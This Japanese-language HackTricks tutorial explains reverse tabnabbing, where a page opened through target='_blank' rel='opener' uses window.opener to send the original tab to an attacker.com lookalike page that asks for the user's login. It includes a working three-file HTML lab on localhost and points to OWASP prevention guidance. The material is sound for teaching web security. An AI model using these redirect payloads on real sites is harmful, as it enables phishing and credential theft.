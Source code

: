{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# 説明

**攻撃者**が**`<a`**タグの**`href`**引数を制御できる状況で、属性**`target="_blank" rel="opener"`**が設定されている場合、**攻撃者**はこの**リンク**を自分の制御下にあるウェブサイト（**悪意のある** **ウェブサイト**）に向けます。次に、**被害者がリンクをクリック**して攻撃者のウェブサイトにアクセスすると、この**悪意のある** **ウェブサイト**は**`window.opener`**というjavascriptオブジェクトを介して**元の** **ページ**を**制御**できるようになります。\
ページに**`rel="opener"`**がないが**`target="_blank"`**が含まれている場合、**`rel="noopener"`**がない場合も脆弱である可能性があります。

この動作を悪用する一般的な方法は、`window.opener.location = https://attacker.com/victim.html`を使用して元のウェブの位置を攻撃者が制御するウェブに変更し、**元のウェブサイト**の**ログイン** **フォーム**を**模倣**してユーザーに資格情報を要求することです。

ただし、**攻撃者が元のウェブサイトのウィンドウオブジェクトを制御できるため**、他の方法で**より巧妙な攻撃**を行うことができることに注意してください（おそらくjavascriptイベントを変更して、彼が制御するサーバーに情報を流出させる？）

# 概要

## バックリンクあり

防止属性が使用されていない場合の親ページと子ページ間のリンク：

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## バックリンクなし

防止属性が使用されている場合の親ページと子ページ間のリンク：

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## 例 <a href="#examples" id="examples"></a>

フォルダーに次のページを作成し、`python3 -m http.server`でウェブサーバーを実行します。\
次に、**アクセス** `http://127.0.0.1:8000/`vulnerable.html、**クリック**してリンクをクリックし、**元の** **ウェブサイト**の**URL**が**変更**される様子を確認します。

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## アクセス可能なプロパティ <a href="#accessible-properties" id="accessible-properties"></a>

**クロスオリジン** アクセスが発生するシナリオでは（異なるドメイン間のアクセス）、悪意のあるサイトがアクセスできる **opener** JavaScript オブジェクト参照によって参照される **window** JavaScript クラスインスタンスのプロパティは以下のように制限されます：

- **`opener.closed`**: このプロパティはウィンドウが閉じられたかどうかを判断するためにアクセスされ、ブール値を返します。
- **`opener.frames`**: このプロパティは現在のウィンドウ内のすべての iframe 要素へのアクセスを提供します。
- **`opener.length`**: 現在のウィンドウに存在する iframe 要素の数がこのプロパティによって返されます。
- **`opener.opener`**: 現在のウィンドウを開いたウィンドウへの参照はこのプロパティを通じて取得できます。
- **`opener.parent`**: このプロパティは現在のウィンドウの親ウィンドウを返します。
- **`opener.self`**: このプロパティは現在のウィンドウ自体へのアクセスを提供します。
- **`opener.top`**: このプロパティは最上位のブラウザウィンドウを返します。

ただし、ドメインが同一である場合、悪意のあるサイトは [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript オブジェクト参照によって公開されているすべてのプロパティにアクセスできます。

# 予防

予防情報は [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) に文書化されています。

## 参考文献

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
